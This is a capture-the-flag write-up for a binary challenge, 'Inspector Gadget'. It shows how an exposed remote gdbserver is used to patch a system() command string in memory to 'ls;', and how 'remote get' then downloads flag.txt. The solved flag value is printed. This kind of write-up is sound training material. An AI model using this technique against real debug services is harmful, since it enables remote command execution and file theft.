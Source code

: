 **Name**: Inspector Gadget  
**Points**: 400  
**Instructions**: Exploit the vulnerable inspector-gadget service running at challenges.runesec.com:22417.  
**Hint**: And now you'll be telling stories of my return and they won't be false, and they won't be true but they'll be real  

## Exploration
- `$ strings inspector-gadget` doesn't reveal much.
- Running the binary: Prompts for input, then prints "Answer: LOL!!" and starts a `gdbserver`.
- `$ r2 inspector-gadget` reveals nothing that could lead us to the flag; however, the following 2 lines give us a *Christmas-came-early* moment:
```
0x080485b3 68a4860408 push str.gdbserver_:65488_inspector_gadget ; str.gdbserver_:65488_inspector_gadget ; "gdbserver :65488 inspector-gadget" @ 0x80486a4  
0x080485b8 e833feffff call sym.imp.system ;[9]
```  

- That's a system call. Maybe we can replace the system call to gdbserver with something else that can lead us closer to the flag. But this system call, of course, should take place on their server, not our machine.  
- We connect to the service running on their server. Same as locally, we get prompted to give an input and then the `gdbserver` is started, on their server. We can connect to it.
```
$ gdb inspector-gadget
gdb > target remote ctf.challenges.com:65488
``` 
- Brainstorming. 
  - The flag must be somewhere on the remote server.
  - Maybe we can load a symbols table from an external file that resides on the server.
  - That system call that's available to us is too powerful to be ignored.
  - Maybe we can directly access files on the remote filesystem.

## Exploitation
Let's overwrite that system call from  
`gdbserver :65488 inspector-gadget`  
to something short and simple:  
`ls;`

The string `gdbserver :65488 inspector-gadget` is at memory location `0x80486a4`.

We can overwrite it like so:
```
gdb> set {int}0x80486a4 = 0x3B736C
gdb> continue
```  
*0x3B736C is the hex representation of `ls;`, reversed.*  

It works! On the opened session we have to their server it prints:
`flag.txt inspector-gadget` and one more file, but our eyes are staring at `flag.txt`. We must capture it.  

We start thinking about crafting a (short) system call to get the contents of `flag.txt`. `cat *;` maybe?  

Midway of thinking of byte sequences that would make the system call reveal the contents of `flag.txt`, we recall an interesting command for `gdb`:

```
gdb> remote get flag.txt flag.local
```

*Cue the drum roll*   

```
$ cat flag.local
flag{82ef8b2e007da38b9ce1547cd249f6bd}
```
